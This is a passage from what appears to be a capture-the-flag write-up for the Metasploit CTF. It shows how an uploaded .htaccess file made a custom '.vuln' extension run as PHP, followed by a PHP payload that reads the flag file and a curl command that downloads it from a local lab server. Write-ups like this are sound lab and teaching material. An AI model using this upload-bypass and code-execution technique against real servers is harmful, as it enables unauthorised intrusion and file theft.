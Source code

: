 I uploaded the file. 

![.htaccess Uploaded](/assets/images/2021/12/MetasploitCTF/htaccessUploaded.png ".htacess Uploaded")

I clicked on the link, and sure enough, the .htaccess was displayed. So I knew hat the bypass worked. 

Next I wrote some PHP in a file called `test.vuln`, and uploaded it.

```php
<?php
echo 'IT WORKED';
```

When I accessed it, the file was executed and displayed my message. 

![It Worked](/assets/images/2021/12/MetasploitCTF/testVuln.png "It Worked")

I knew I could execute any PHP I wanted on the server. So I modified my test file to read the flag file and echo it back to me. 

```php
<?php
echo file_get_contents('/flag.png');
```

I uploaded that file, then used curl to download the flag image and get it's MD5 checksum. 

```bash
$ curl http://localhost:8082/file_uploads/test.vuln -o flag.png
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  129k    0  129k    0     0   477k      0 --:--:-- --:--:-- --:--:--  479k

$ md5sum flag.png
270d4a0a9abc1c048102ff8b91f10927  flag.png
```